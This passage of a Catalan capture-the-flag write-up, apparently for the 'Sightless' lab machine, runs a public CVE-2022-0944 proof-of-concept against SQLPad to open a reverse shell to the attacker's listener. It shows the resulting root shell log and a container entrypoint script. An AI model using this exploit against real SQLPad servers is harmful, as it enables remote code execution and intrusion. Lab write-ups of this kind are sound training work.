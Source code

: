 Tal i com s'explica al repositori l'execució de l'exploit és hiper senzilla. Simplement hem d'indicar a quina url hi ha l'sqlpad i a quina IP i port escoltarem nosaltres, la màquina atacant: 

``./script.py http://admin.sightless.htb 10.10.11.2 443``

Un cop fet això ja tenim la connexió amb la màquina víctima:

```
┌──(polkali㉿kaliPol)-[~/Documents/Sightless/CVE-2022-0944_RCE_POC-main]
└─$ ./script.py http://sqlpad.sightless.htb 10.10.14.199 443     
listening on [any] 443 ...
connect to [10.10.14.199] from (UNKNOWN) [10.10.11.32] 38258
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# whoami
whoami
root
root@c184118df0a6:/var/lib/sqlpad# `
```

Sembla que estem amb l'usuari root, tocarà investigar perquè no quadra que sigui tant senzill. Després d'investigar una mica, hem anat a l'arrel i trobem un fitxer anomenat docker-entrypoint:

```
root@c184118df0a6:/# ls
ls
bin
boot
dev
docker-entrypoint
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Si li fem cat veiem el següent:

```
root@c184118df0a6:/# cat docker-entrypoint
cat docker-entrypoint
#!/bin/bash
set -e
# This iterates any sh file in the directory and executes them before our server starts
# Note: we intentionally source the files, allowing scripts to set vars that override default behavior.
if [ -d "/etc/docker-entrypoint.d" ]; then
    find /etc/docker-entrypoint.d -name '*.sh' -print0 | 
    while IFS= read -r -d '' line; do 
        . "$line"
    done
fi
exec node /usr/app/server.js $@`
```

